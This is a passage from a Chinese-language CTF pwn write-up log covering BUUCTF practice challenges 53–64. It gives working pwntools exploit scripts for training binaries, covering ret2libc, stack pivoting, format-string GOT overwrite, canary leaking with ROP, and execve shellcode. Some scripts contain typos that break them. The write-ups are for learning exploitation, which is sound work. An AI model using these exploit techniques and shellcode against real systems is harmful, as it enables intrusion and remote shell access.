bin_sh = 0x15902b + libc_base
p.recvuntil("Welcome to XDCTF2015~!\n")
payload2=b"a"*(0x6c+4)+p32(system)+p32(main_add)+p32(bin_sh)
p.send(payload2)
p.interactive()
53 wustctf2020_closed
重定向
ida看一下
__int64 vulnerable()
{
puts("HaHaHa!\nWhat else can you do???");
close(1);
close(2);
return shell();
}
关闭了标准输出（1）和错误输出（2），就算是getshell了也不会得到回显。所以可以利用exec 1>&0将标准输出重定向到标准输入
标准文件描述符
- 标准输入（stdin）：使用文件描述符0（FD 0）表示，默认情况下终端键盘输入与其关联。
- 标准输出（stdout）：使用文件描述符1（FD 1）表示，默认情况下终端屏幕显示与其关联。
- 标准错误（stderr）：使用文件描述符2（FD 2）表示，默认情况下终端屏幕显示与其关联。
重定向
exec 1>&0是Shell命令行中的重定向语法，用于将标准输出重定向到标准输入，因此后续的输出会被作为输入来处理
所以只需要nc之后输入exec 1>&0就可以了
54 ciscn_2019_s_4
栈迁移
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
#p = process('./pwn')
p = remote('node5.buuoj.cn',26010)
#gdb.attach(p)
leave_ret = 0x08048562
sys = elf.sym['system']
payload = b'a'*0x24+b'b'*0x4
p.sendafter('name?\n',payload)
p.recvuntil(b'bbbb')
leak_addr = u32(p.recv(4)) # ebp的地址泄露出来
log.info("leak_addr:"+hex(leak_addr))
buf = leak_addr-0x38 # 回到栈顶
payload2 = p32(sys)+p32(0)+p32(buf+0xc)+b'/bin/sh\x00' #
payload2 = payload2.ljust(0x28,b'a')+p32(buf-4)+p32(leave_ret)
p.send(payload2)
p.interactive()
动态调试分析
-
先看下新栈的地址为什么是
ebp-0x38 -

-
这里是寄存器的地址，可以看到我们的字符串输入到了
760处、而ebp指向了798处，相差0x38字节，所以将栈迁移到这里，方便执行我们的输入 -
payload2 = (p32(sys)+p32(0)+p32(buf+0xc)+b'/bin/sh\x00').ljust(0x28,b'a')+p32(buf-4)+p32(leave_ret)
-
p32(buf-4):将ebp覆盖为了buf-4,因为每执行一条指令之后eip会自动+4，这里将eip退回去，防止跳过指令 -
p32(leave_ret)：将返回地址覆盖为leave此时的栈结构
buf sys_addr system函数地址 0 返回地址（占位） buf+12 /bin/sh的参数地址 /bin/sh 填充的剩余空间 buf-4 栈迁移后的ebp leave 执行leave_ret
55 [ZJCTF 2019]Login
栈追踪？或许叭
函数是用c++写的，看起来有点令人头大
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/55/pwn'
Arch: amd64-64-little
RELRO: Partial RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
Stripped: No
ida查看

在第14和16行发现要输入的账号和密码，不过肯定没有这么简单，执行看看
❯ ./pwn
_____ _ ____ _____ _____ _ _
|__ / | |/ ___|_ _| ___| | | ___ __ _(_)_ __
/ /_ | | | | | | |_ | | / _ \ / _` | | '_ \
/ /| |_| | |___ | | | _| | |__| (_) | (_| | | | | |
/____\___/ \____| |_| |_| |_____\___/ \__, |_|_| |_|
|___/
Please enter username: admin
Please enter password: 2jctf_pa5sw0rd
Password accepted: Password accepted:
[1] 4014 segmentation fault ./pwn
寄
看别人的汇编发现在password_checker函数中有一个隐蔽的错误

主可以看到在0x400A54位置处有一个call rax指令，那么我们将rax修改为后门函数的地址就可以了（默认你找到那个后门函数了）

可以在0x400A89位置处发现rax的值由var_18确定，那么去找一下var_18在哪里

有的，兄弟，有的...
从s处（ebp-0x60)开始，到var_18(ebp-0x18),再除去已经输入的密码2jctf_pa5sw0rd\x00(0xe长度),我们需要填充的数据量为0x60 - 0x18 - 0xe = 0x3a
所以exp：
from pwn import *
p = remote('node5.buuoj.cn',25872)
backdoor = 0x400e88
p.sendlineafter(': ','admin')
p.sendlineafter(': ',b'2jctf_pa5sw0rd'+b'\x00'*0x3a+p64(backdoor))
p.interactive()
56 picoctf_2018_shellcode
ret2shellcode
题比较简单，尝试了一下盲打
❯ ./pwn
Enter a string!
aaaaaa
aaaaaa
Thanks! Executing now...
[1] 2462 segmentation fault ./pwn
根据运行情况，猜测是输入相关字符串并当作函数执行，所以直接写入shellcode试试
from pwn import *
p = remote('node5.buuoj.cn',28483)
p.sendline(asm(shellcraft.sh()))
p.interactive()
然后打通了
57 hitcontraining_magicheap
施工中
58 jarviso_level1
本身应该挺简单的，但是远程和本地的输出不一样
本地：
from pwn import *
context.log_level = 'debug'
p = process('./pwn')
p.recvuntil(b':')
buf_addr = int(p.recv(10),16)
log.info(hex(buf_addr))
payload = asm(shellcraft.sh()).ljust(0x87+0x4,b'b')+p32(buf_addr)
p.sendline(payload)
p.interactive()
接受buf的地址，然后ret回buf处执行shellcode
但是远程要先输入再回显，所以只能ret2libc
from pwn import *
from LibcSearcher import *
p=remote('node5.buuoj.cn',29446)
elf=ELF("./pwn")
main_addr=0x80484b7
write_plt=elf.plt['write']
write_got=elf.got['write']
payload=b'a'*(0x88+0x4)+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)
p.send(payload)
write_addr=u32(r.recv(4))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
system_addr=libc_base+libc.dump('system')
bin_sh=libc_base+libc.dump('str_bin_sh')
payload =b'a'*(0x88+0x4)+p32(system_addr)+p32(main_addr)+ p32(bin_sh)
p.send(payload)
p.interactive()
59 axb 2019 fmt32
fmt+ret2libc
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
#gdb.attach(p)
printf_got = elf.got['printf']
printf_plt = elf.plt['printf']
payload = b'a'+p32(printf_got)+b'b'+b'%8$s'
p.sendlineafter(b'me:', payload)
p.recvuntil(b'b')
printf_addr = u32(p.recv(4))
log.info("prinf_addr:"+hex(printf_addr))
libc = LibcSearcher('printf',printf_addr)
libc_base = printf_addr - libc.dump('printf')
sys = libc_base+libc.dump('system')
binsh = libc_base+libc.dump('str_bin_sh')
payload2 = b'a'+fmtstr_payload(8,{printf_got:system},wirte_size = 'byte',numbwritten = 0xa)
p.sendline(payload2)
p.sendline('/bin/sh\x00')
p.interactive()
分析
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/59/pwn'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)
Stripped: No

在第25行有明显fmt漏洞,经过输入查询发现我们的输入偏移为8（但不完全是）
gdb测试的时候发现第一个字符的输入是存放在了第7个偏移处，所以应该先填充一个字符，防止后来的地址出现问题
在printf_got后面加一个b'b'为了做为recvuntil()的标记，泄露printf地址后就可以libc了
60 cinscn_s_9
shellcode
checksec一下
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/60/pwn'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX unknown - GNU_STACK missing
PIE: No PIE (0x8048000)
Stack: Executable
RWX: Has RWX segments
Stripped: No
Debuginfo: Yes
有RWX段,保护全关，估计shellcode,ida看看
int pwn()
{
char s[24]; // [esp+8h] [ebp-20h] BYREF
puts("\nHey! ^_^");
puts("\nIt's nice to meet you");
puts("\nDo you have anything to tell?");
puts(">");
fflush(stdout);
fgets(s, 50, stdin);
puts("OK bye~");
fflush(stdout);
return 1;
}
void hint()
{
__asm { jmp esp }
}
有一个jmp esp函数，pwn函数里存在溢出点，但总计可以读入0x32字节，不够写shellcraft.sh()，所以要手写
这边梳理一下流程
在栈上写入小shellcode->覆盖返回地址为jmp esp->让esp指向shellcode->主动调用esp
exp:
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux',log_level = 'debug',arch='i386')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
#libc = ELF("./libc.so.6")
p = process('./pwn')
shellcode = '''
xor eax, eax
push eax
push 0x68732f2f
push 0x6e69622f
mov ebx, esp
mov ecx, eax
mov edx, eax
mov al, 0xb
int 0x80
''''
shellcode = asm(shellcode)
payload = shellcode.ljust(0x24,b'\x00')+p32(0x8048554)
payload+=asm('sub esp,0x28;call esp') # 0x24+0x4=0x28
p.sendline(payload)
p.interactive()
buu刷题记录（61-80题）
by Maple
61 others_babystack
canary+libc
checksec一下
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/61/pwn'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: No PIE (0x400000)
NX保护，Canary保护，所以思路应该是泄露Canary，然后泄露libc，然后ROP
看下源码
ssize_t sub_4008B9()
{
sub_400826("--------");
sub_400826("1.store");
sub_400826("2.print");
sub_400826("3.quit");
sub_400826("--------");
return sub_4007F7(">> ");
}
int sub_400841()
{
char s[40]; // [rsp+10h] [rbp-30h] BYREF
unsigned __int64 v2; // [rsp+38h] [rbp-8h]
v2 = __readfsqword(0x28u);
memset(s, 0, 0x20uLL);
if ( (int)read(0, s, 0x20uLL) <= 0 )
exit(1);
return atoi(s);
}
__int64 __fastcall main(int a1, char **a2, char **a3)
{
int v3; // eax
char s[136]; // [rsp+10h] [rbp-90h] BYREF
unsigned __int64 v6; // [rsp+98h] [rbp-8h]
v6 = __readfsqword(0x28u);
setvbuf(stdin, 0LL, 2, 0LL);
setvbuf(stdout, 0LL, 2, 0LL);
setvbuf(stderr, 0LL, 2, 0LL);
memset(s, 0, 0x80uLL);
while ( 1 )
{
sub_4008B9();
v3 = sub_400841();
switch ( v3 )
{
case 2:
puts(s); // 回显Canary
break;
case 3:
return 0LL;
case 1:
read(0, s, 0x100uLL); // 可以溢出
break;
default:
sub_400826("invalid choice");
break;
}
sub_400826(&unk_400AE7);
}
}
是一个菜单，1对应输入，2对应输出（用puts）
所以canary截断泄露，libc用puts泄露，然后构造ROP
from pwn import *
from struct import pack
context(os='linux', arch='amd64',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
elf = ELF("./pwn")
libc = ELF("./libc-2.23.so")
#p = process('./pwn')
p = remote('node5.buuoj.cn',29212)
#--------Canary-------
payload = b'a'*(0x90-0x8)
p.recvuntil('>> ')
p.sendline('1')
p.sendline(payload)
p.recvuntil('>> ')
p.sendline('2')
p.recvuntil(b'a'*(0x90-0x8)+b'\n')
canary = u64(b'\x00'+p.recv(7))
log.info("canary:"+hex(canary))
#-------leak_libc------
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
main = 0x400908
pop_rdi = 0x0000000000400a93
p.sendlineafter('>> ','1')
payload1 = b'a'*0x88+p64(canary)+b'b'*0x8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(m
ain)
p.sendline(payload1)
p.sendlineafter('>> ','3')
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc_base = puts_addr-libc.symbols['puts']
log.info("libc_base"+hex(libc_base))
#---------getshell-------
p.sendlineafter('>> ','1')
one_gadget = libc_base+0x45216
payload2 = b'b'*0x88+p64(canary)+b'b'*0x8+p64(one_gadget)
p.sendline(payload2)
p.sendlineafter('>> ','3')
p.interactive()
这边用的one_gadget,正常的ROP也是没有问题的
62 pwnable_start
shellcode
checksec一下
❯ checksec pwn
[*] '/home/pwn/pwn/buuctf/62/pwn'
Arch: i386-32-little
RELRO: No RELRO
Stack: No canary found
NX: NX disabled
PIE: No PIE (0x8048000)
Stripped: No
保护全关
ida看一下，汇编写的
public _start
_start proc near
push esp
push offset _exit
xor eax, eax
xor ebx, ebx
xor ecx, ecx
xor edx, edx
push 3A465443h
push 20656874h
push 20747261h
push 74732073h
push 2774654Ch
mov ecx, esp ; addr
mov dl, 14h ; len
mov bl, 1 ; fd
mov al, 4
int 80h ; LINUX - sys_write
xor ebx, ebx
mov dl, 3Ch ; '<'
mov al, 3
int 80h ; LINUX -
add esp, 14h
retn
扔给ai分析一下，read那里可以读入60字节，但是栈只有20字节，可以溢出
所以我们可以先给esp指的位置泄露出来，然后把那个地方写入shellcode并执行
from pwn import *
context.arch = 'i386'
#p = process('./pwn')
p = remote('node5.buuoj.cn',25719)
payload = b'a'*20+p32(0x08048087)# ida里可以看到，这里对应的是 mov ecx,esp
p.recvuntil(b':')
p.send(payload)
leak = u32(p.recv(4))
shellcode = b'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'
#shellcode = asm(shellcraft.sh())
payload2 = b'a'*20+p32(leak+20)+shellcode
p.send(payload2)
p.interactive()
可以在这里找一些合适的shellcode
63 gyctf_2020_borrowstack
直接看这篇吧
64 hitcontraining_heapcreator
施工中